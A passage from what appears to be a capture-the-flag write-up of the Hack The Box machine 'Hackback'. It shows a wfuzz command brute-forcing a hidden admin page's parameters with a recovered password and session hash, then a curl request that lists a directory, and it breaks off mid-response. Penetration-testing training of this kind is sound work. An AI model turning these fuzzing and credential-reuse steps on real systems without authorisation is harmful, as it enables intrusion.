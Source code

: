 Long story short, after several rounds of fuzzing, I discovered that the password (a.k.a secret key) is `12345678` and the session (a.k.a identifier or PHPSESSID) is actually the SHA256 digest of my IP address.

With two of the values narrowed down, we can go ahead and fuzz the other two parameters: `action` and `site`.

```
# wfuzz -w actions.txt -w sites.txt --hc 404 "$URL?action=FUZZ&site=FUZ2Z&password=$PW&session=$SESS"
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=FUZZ&site=FUZ2Z&password=12345678&session=d6f6d9ea1aa952064edbb93f22453e96ca29e7fdf042d7a47218d39aac3048bf
Total requests: 16

==================================================================
ID      Response   Lines      Word         Chars          Payload
==================================================================

000001:  C=302      0 L        0 W            0 Ch        "show - twitter"
000002:  C=302      0 L        0 W            0 Ch        "show - paypal"
000003:  C=302      0 L        0 W            0 Ch        "show - facebook"
000004:  C=302      0 L        0 W            0 Ch        "show - hackthebox"
000005:  C=302      5 L        9 W           37 Ch        "list - twitter"
000006:  C=302      5 L        9 W           37 Ch        "list - paypal"
000007:  C=302      5 L        9 W           37 Ch        "list - facebook"
000008:  C=302      6 L       12 W          117 Ch        "list - hackthebox"
000009:  C=200      0 L        2 W           15 Ch        "exec - twitter"
000010:  C=200      0 L        2 W           15 Ch        "exec - paypal"
000011:  C=200      0 L        2 W           15 Ch        "exec - facebook"
000012:  C=200      0 L        2 W           15 Ch        "exec - hackthebox"
000014:  C=302      0 L        1 W            5 Ch        "init - paypal"
000015:  C=302      0 L        1 W            5 Ch        "init - facebook"
000016:  C=302      0 L        1 W            5 Ch        "init - hackthebox"
000013:  C=302      0 L        1 W            5 Ch        "init - twitter"

Total time: 0.978299
Processed Requests: 16
Filtered Requests: 0
Requests/sec.: 16.35491
```

You can see that "list - hackthebox" stands out from the rest.

```
# curl -i "$URL?action=list&site=hackthebox&password=$PW$&session=$SESS"
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: /
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.2.7
Set-Cookie: PHPSESSID=d6f6d9ea1aa952064edbb93f22453e96ca29e7fdf042d7a47218d39aac3048bf; path=/
X-Powered-By: ASP.NET
Date: Mon, 25 Mar 2019 14:49:55 GMT
Content-Length: 117

Array
(
    [0] => .
    [1] => ..
```

[1]: https://www.hackthebox.eu/home/machines/profile/176
[2]: https://www.hackthebox.eu/home/users/profile/1391
[3]: https://www.hackthebox.eu/home/users/profile/12438
[4]: https://www.hackthebox.eu/